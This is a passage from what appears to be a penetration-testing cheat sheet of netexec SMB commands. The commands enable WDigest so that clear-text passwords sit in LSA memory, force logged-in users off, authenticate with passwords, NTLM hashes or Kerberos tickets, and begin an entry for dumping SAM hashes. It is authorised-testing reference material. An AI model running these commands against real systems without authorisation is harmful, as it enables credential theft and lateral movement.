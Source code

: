 enable/disable the WDigest provider and dump clear-text credentials from LSA memory.

```bash
netexec smb <ip> -u <user|Administrator> -p '<password>' --local-auth --wdigest enable
```

## netexec - loggout user
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #warning/modify_target #cat/POSTEXPLOIT

Can be useful after enable wdigest to force user to reconnect

```bash
netexec smb <ip> -u <user> -p '<password>' -x 'quser'
netexec smb <ip> -u <user> -p '<password>' -x 'logoff <id_user>' --no-output
```

## netexec - local-auth
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT  

```bash
netexec smb <ip> -u <user> -p <password> --local-auth
```

## netexec - local-auth with hash
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT 

```bash
netexec smb <ip> -u <user> -H <hash> --local-auth
```

## netexec - domain auth
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT  

```bash
netexec smb <ip> -u <user> -p <password> -d <domain>
```

## netexec - kerberos auth
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT 

Previously import ticket : 
export KRB5CCNAME=/tmp/ticket.ccache

```bash
netexec smb <ip> --kerberos
```

## netexec - Dump SAM
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

Dump SAM hashes using methods from secretsdump.py
You need at least local admin privilege on the remote target, use option --local-auth if your user is a local account
